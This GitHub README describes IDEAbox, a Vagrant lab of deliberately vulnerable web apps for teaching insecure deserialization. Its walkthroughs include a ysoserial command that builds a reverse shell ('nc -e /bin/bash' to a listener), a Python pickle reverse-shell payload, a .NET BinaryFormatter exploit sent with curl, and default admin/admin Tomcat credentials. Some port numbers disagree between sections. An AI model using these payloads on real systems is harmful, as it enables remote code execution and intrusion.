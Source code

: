 # Insecure DEserialization Attack box (IDEAbox)

A virtual machine with several web applications to demonstrate insecure deserialization vulnerabilities and ways to exploit them.

## Setup

### Prerequisites

1. Vagrant
2. VirtualBox

### Installation

`vagrant up`

## Usage

If the installation goes well (if it doesn't, let me know!), three web applications are available:

- Cookie spoofing (Node.js) - http://localhost:3001
- Denial of service (Java) - http://localhost:3002/ideabox
- Remote code execution (Python) - http://localhost:3004


### Cookie spoofing (Node.js, JSON)

1. Go to http://localhost:3002
2. Click on *insecure*
   - Open browser developer tools and analyze the `user` cookie
      - What does it look like?
      - Is it encoded in some way?
      - What do you see if you decode it?
   - Can you modify the cookie and elevate privileges?
3. Go to *secure* and check the cookie
   - Can you spoof it now? Why not?
   - Look at the source code in `web/node` to understand why.


### Denial of service (Java, native serialization)

1. Go to http://localhost:3003/ideabox
2. Go to *Factory* 
   - Download an object and store it on disk.
   - What does it look like? (native Java serialized object).
3. Go to *Store*
   - Upload an object and see what happens (all should be good)
4. Go to *Hacktory* and get the payloads
   - Go back to *Store* and upload.
   - What's going on?
5. Go to *Secure Store* and try the payloads
   - The application rejects malicious stuff.
   - Look at the code in `web/java/WEB-INF/classes` to understand why.

*Note: you can access Tomcat Manager at http://localhost:3003/manager Of course it's secure! The user name is 'admin', and the password is 'admin' :)*


### Remote code execution (Python, pickle)

1. Go to http://localhost:3005
2. Look at the `session` cookie. Does it look like, maybe, Python serialized data?
3. Go to `web/python` and generate a payload:
   `python3 payload.py`
4. Fire up a local netcat listener:
   `nc -nlvp 1337`
5. In the browser, replace the `session` cookie with the payload and reload the page
6. Did netcat get a connection? It's a reverse shell! Run a few shell command and see.
7. Look at the code in `web/python` to understand why


### Remote code execution (Java, native)

1. Download [ysoserial](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
1. Generate the payload:
   `java -jar ~/tools/ysoserial.jar CommonsBeanutils1 'nc -e /bin/bash 10.0.2.2 1337' > revshell.ser`
1. Fire up a local netcat listener:
   `nc -nlvp 1337`
1. Go to http://localhost:3003/ideabox
1. Go to *Store*
1. "Sell" the payload


### Remote code execution (.NET, native)

You'll need a Windows machine with Visual Studio. You can use [Windows 10 dev env VM](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/)

1. Download [ysoserial.net](https://github.com/pwntester/ysoserial.net), open and compile the solution in Visual Studio.
1. In Command Line window, navigate to the folder that contains the compiled executable (e.g. ysoserial\bin\Debug) and generate the payload:
   `ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -o raw -c "calc.exe" > \Users\User\execute-calc.raw`
1. Open [CyberPark.sln](web/net/CyberPark/CyberPark.sln) in Visual Studio, compile and run. It should open a browser window with http://localhost:50376
1. Start Ubuntu app in Windows and try the following to see how the API works:
   1. `curl -s http://localhost:50376/api/auth`
   1. `curl -s http://localhost:50376/api/auth -H "Authorization: AAEAAAD/////AQAAAAAAAAARAQAAAAIAAAAGAgAAAAN0aGUGAwAAAARiZXN0Cw=="`
1. Finally, send the payload:
   `curl -s http://localhost:50376/api/auth -H "Authorization: $(base64 -w 0 execute-calc.raw)"`
   and enjoy the Calculator.


